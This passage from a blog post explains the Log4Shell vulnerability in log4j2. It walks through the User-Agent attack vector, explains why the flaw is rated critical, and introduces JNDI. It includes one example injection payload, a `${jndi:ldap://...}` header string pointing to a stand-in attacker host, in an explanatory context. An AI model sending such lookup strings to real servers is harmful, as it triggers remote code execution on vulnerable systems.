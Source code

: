 ### The User-Agent attack vector

The most commonly reported attack vector for this vulnerability is with the `User-Agent` HTTP header.

1. An attacker sends an HTTP request with a modified `User-Agent: ${jndi:ldap://evil.xa/x}` header to a vulnerable web-server
2. The vulnerable web-server logs the HTTP request using log4j2
3. Log4j2 does a lookup using the LDAP JNDI provider, which will then make a remote LDAP query to the attacker's specified malicious server `ldap://evil.xa/x`
4. The malicious server sends back a response with a malicious Java object
5. The Java object is deserialised and executed on the vulnerable web-server and becomes a victim to the Attacker's RCE (Remote Code Execution)

{{<figr
    src="/blog/deep-dive-log4shell/log4j-attack-useragent.png"
    title="Example Log4Shell attack using the User-Agent header"
    attr="(from Swiss Government Computer Emergency Response Team)"
    attrlink="hhttps://govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j"
>}}

Here we can see why the Log4Shell vulnerability is given the `10.0 CRITICAL` score:

- Logging inbound HTTP requests with the ubiquitous [User-Agent header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) is a very common practice
- Most Java applications will be using some version of Log4j
- Modifying the `User-Agent` header is incredibly simple
- RCE allows the attacker to execute any Java code on the server

This is just one attack vector; the necessity of logging means that this vulnerability will have a massive attack surface.

## The technicalities

Now, lets take a deeper look into the source to understand how this all happens.

First, a brief tutorial on JNDI...

### Understanding JNDI

JNDI (**Java Naming and Directory Interface**) defines a common interface to interact with naming and directory services.

- **Naming Service**: Associates names with values (called *bindings*)
- **Directory Service**: Special type of naming service that allows storing and finding "directory objects"

It allows distributed applications to look up services in an abstract, resource-independent manner using the common JNDI interface. That is, **a variety of naming/directory services can be accessed by a Java application in a common way without the developers having to individually design code to access them.**

A core component of JNDI are *contexts* -- collections of name-to-object bindings. Once an application has a JNDI context, it can create name-to-object bindings with the `.bind()` method, and later retrieve the objects with the `.lookup(name)` methods[^jb1].
